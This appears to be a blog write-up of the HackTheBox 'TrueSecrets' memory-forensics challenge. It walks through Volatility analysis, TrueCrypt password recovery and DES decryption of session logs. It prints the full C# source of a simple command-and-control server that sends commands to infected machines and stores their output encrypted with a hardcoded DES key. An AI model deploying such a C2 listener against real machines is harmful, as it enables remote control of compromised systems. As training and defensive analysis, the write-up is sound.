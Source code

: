 ```yaml
---
layout: post
title: HackTheBox - TrueSecrets
description: Memory forensic, encryption
tags: [HackTheBox, Writeup, TrueCrypt, Volatility, Memory Forensic, Blue Team]
---
```

Hi, after I've spent a long time for English test, finally I have time to post my CTF writeup. Continuing with HackTheBox,
now it's a memory challenge as title. First, I check memory profile: ![]({{site.url}}/assets/images/TrueSecrets/1.png)

It's a memory dump of Window 7, I continue to check list of processes:

![]({{site.url}}/assets/images/TrueSecrets/2.png)

We will notice that there's some useful evidences such as **TrueCrypt.exe**, **7zFM.exe**. I guessed attacker has done something and 
I've checked console infomation and pid 2176 made me interested

![]({{site.url}}/assets/images/TrueSecrets/4.png)

I'm sure there're some files could help me so much in this challenge, so I scanned all files that related to backup data:

![]({{site.url}}/assets/images/TrueSecrets/5.png)

And you can see that there're two files: **development.tc**, **backup_development.zip**. I've dumped zip file to my machine, unzipped it and I've got two files more, but you know when we dump some files on memory file, we just know what file offset is and if we want to know what extension that file has, we still use _file_ command to check it. After checking, both of them are zip files, I've tried the first one and fortunately, I've extracted successfully **development.tc** as in the image.

Use TrueCrypt to import tc file, but our problem is that file needs password, so what should we do now? In Volatility2 we have plugin called **truecryptsummary**
which is used to display TrueCrypt summary information:

![]({{site.url}}/assets/images/TrueSecrets/6.png)

Great, now we know the password, put it into password field and now the file is mounted into our machine in **/media/truecrypt1**:

![]({{site.url}}/assets/images/TrueSecrets/8.png)

Navigating to the directory and we'll see file named _AgentServer.cs_ and directory named _session_, first I analyze C# file:

```
using System;
using System.IO;
using System.Net;
using System.Net.Sockets;
using System.Text;
using System.Security.Cryptography;

class AgentServer {
  
    static void Main(String[] args)
    {
        var localPort = 40001;
        IPAddress localAddress = IPAddress.Any;
        TcpListener listener = new TcpListener(localAddress, localPort);
        listener.Start();
        Console.WriteLine("Waiting for remote connection from remote agents (infected machines)...");
    
        TcpClient client = listener.AcceptTcpClient();
        Console.WriteLine("Received remote connection");
        NetworkStream cStream = client.GetStream();
    
        string sessionID = Guid.NewGuid().ToString();
    
        while (true)
        {
            string cmd = Console.ReadLine();
            byte[] cmdBytes = Encoding.UTF8.GetBytes(cmd);
            cStream.Write(cmdBytes, 0, cmdBytes.Length);
            
            byte[] buffer = new byte[client.ReceiveBufferSize];
            int bytesRead = cStream.Read(buffer, 0, client.ReceiveBufferSize);
            string cmdOut = Encoding.ASCII.GetString(buffer, 0, bytesRead);
            
            string sessionFile = sessionID + ".log.enc";
            File.AppendAllText(@"sessions\" + sessionFile, 
                Encrypt(
                    "Cmd: " + cmd + Environment.NewLine + cmdOut
                ) + Environment.NewLine
            );
        }
    }
    
    private static string Encrypt(string pt)
    {
        string key = "AKaPdSgV";
        string iv = "QeThWmYq";
        byte[] keyBytes = Encoding.UTF8.GetBytes(key);
        byte[] ivBytes = Encoding.UTF8.GetBytes(iv);
        byte[] inputBytes = System.Text.Encoding.UTF8.GetBytes(pt);
        
        using (DESCryptoServiceProvider dsp = new DESCryptoServiceProvider())
        {
            var mstr = new MemoryStream();
            var crystr = new CryptoStream(mstr, dsp.CreateEncryptor(keyBytes, ivBytes), CryptoStreamMode.Write);
            crystr.Write(inputBytes, 0, inputBytes.Length);
            crystr.FlushFinalBlock();
            return Convert.ToBase64String(mstr.ToArray());
        }
    }
}
```
As you can see there're two parts in this script: Main and Encrypt. In _Main_, when executed, it will establish the connection to target with port 40001. After 
that, attacker will write some malicious code which are saved as session files and it will be encrypted by _Encrypt_ with [DES algorithm](https://en.wikipedia.org/wiki/Data_Encryption_Standard){:target="_blank"}{:rel="noopener noreferrer"}

It's easy to write a script for decryption but because of my lazyness, I try to find some scripts in Github and fortunately, I have found [this](https://github.com/frizb/Python_DES_Decryptor){:target="_blank"}{:rel="noopener noreferrer"}. After decoding times, finally I found the flag in the last line of **de008160-66e4-4d51-8264-21cbc27661fc.log.enc**

![]({{site.url}}/assets/images/TrueSecrets/9.png)

Thanks for watching, hope you enjoy that! See you in the next post!
